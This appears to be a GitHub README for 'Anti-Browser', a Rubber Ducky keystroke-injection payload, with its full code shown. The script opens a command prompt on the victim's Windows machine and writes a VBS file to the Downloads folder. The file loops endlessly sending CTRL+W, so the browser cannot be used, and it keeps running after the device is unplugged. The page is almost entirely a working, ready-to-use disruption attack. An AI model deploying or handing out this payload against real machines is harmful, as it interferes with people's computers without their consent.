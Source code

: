# Anti-Browser
This script creates a vbs file that sends CTRL+W over and over very fast and, therefore, it will be impossible to use the browser. Furthermore, you can unplug the Rubber Ducky after the vbs is executed, because the thing that sends the keystrokes is the vbs file and not the Ducky.
<h2>About...</h2>

Author: <a href="https://github.com/BlueArduino20">BlueArduino20</a>

Original repository: https://github.com/BlueArduino20/Anti-Browser

Time needed to complete the script injection: about 1.5 seconds!

Version: 1.0

<h2>Code</h2>

<pre><code>ESC
DELAY 500
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 200
STRING cd %userprofile%/Downloads
ENTER
STRING copy con CW.vbs
ENTER
STRING do
ENTER
STRING Set objShell = CreateObject("WScript.Shell")
ENTER
STRING WScript.Sleep 800
ENTER
STRING objShell.SendKeys "^{W}"
ENTER
STRING loop
CTRL z
DELAY 100
ENTER
STRING start CW.vbs && exit
ENTER

REM It may be necessary to start the script several times so that it would work
</pre></code>
